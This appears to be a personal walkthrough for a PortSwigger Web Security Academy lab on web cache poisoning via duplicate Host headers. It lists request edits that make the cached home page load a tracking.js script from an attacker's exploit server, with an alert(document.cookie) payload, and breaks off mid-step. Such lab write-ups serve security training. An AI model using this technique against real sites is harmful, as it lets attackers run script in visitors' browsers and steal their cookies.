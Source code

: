 # Portswigger
## HTTP Host Header vulnerabilities
### Web cache poisoning via ambiguous requests
```bash

# This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page.

# To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser. 

Refresh the page
Go to: HTTP history
Find:

GET / HTTP/1.1

Add an additional Host: header below the current Host: header
Like so:

Host: 0a2b00ba04a02f02c0f60e8e00b80048.web-security-academy.net
Host: test.com

Send
Copy "test.com"
Ensure the response includes:

X-Cache: hit

Enter into the search box:

test.com

Find:

<script type="text/javascript" src="//test.com/resources/js/tracking.js"></script>

Go to: "Go to exploit server"
File:

/resources/js/tracking.js

Body:

alert(document.cookie)

Go to: Repeater
Change:

Host: 0a2b00ba04a02f02c0f60e8e00b80048.web-security-academy.net
Host: test.com

To

Host: 0a2b00ba04a02f02c0f60e8e00b80048.web-security-academy.net
Host: exploit-0a4400bd04f32f3ec0790e1c01b9001f.web-security-academy.net

Send
Ensure the response includes:
```